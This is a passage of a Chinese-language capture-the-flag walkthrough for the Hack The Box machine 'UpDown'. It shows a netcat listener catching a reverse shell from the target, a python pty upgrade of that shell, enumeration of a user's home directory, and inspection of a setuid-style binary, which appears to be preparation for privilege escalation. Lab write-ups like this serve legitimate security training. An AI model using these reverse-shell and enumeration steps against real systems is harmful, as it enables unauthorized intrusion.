 + get shell并切换稳定shell:

    ```
    ┌──(kali㉿kali)-[~/桌面/HTB/UpDown]
    └─$ nc -nlvp 443
    listening on [any] 443 ...
    connect to [10.10.16.5] from (UNKNOWN) [10.10.11.177] 44572
    bash: cannot set terminal process group (907): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@updown:/var/www/dev$ whoami
    whoami
    www-data
    www-data@updown:/var/www/dev$ python -c "import pty; pty.spawn('/bin/bash')"
    python -c "import pty; pty.spawn('/bin/bash')"
    www-data@updown:/var/www/dev$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

+ 当前用户权限为`www-data`权限，无法访问`developer`用户的文件

    ```
    www-data@updown:/var/www/dev$ cd /home
    cd /home
    www-data@updown:/home$ dir
    dir
    developer
    www-data@updown:/home$ cd developer 
    cd developer
    www-data@updown:/home/developer$ dir
    dir
    dev  user.txt
    www-data@updown:/home/developer$ cat user.txt
    cat user.txt
    cat: user.txt: Permission denied
    ```

+ 进入`/dev`目录下，发现一个二进制文件和python文件，进行查看：

    ```
    www-data@updown:/home/developer/dev$ cat siteisup_test.py
    cat siteisup_test.py
    import requests

    url = input("Enter URL here:")
    page = requests.get(url)
    if page.status_code == 200:
        print "Website is up"
    else:
    print "Website is down"www-data@updown:/home/developer/dev$ strings siteisup
    strings siteisup
    /lib64/ld-linux-x86-64.so.2
    libc.so.6
    puts
    setresgid
    setresuid
    system
    getegid
    geteuid
    __cxa_finalize
    __libc_start_main
    GLIBC_2.2.5
    _ITM_deregisterTMCloneTable
    __gmon_start__
    _ITM_registerTMCloneTable
    u+UH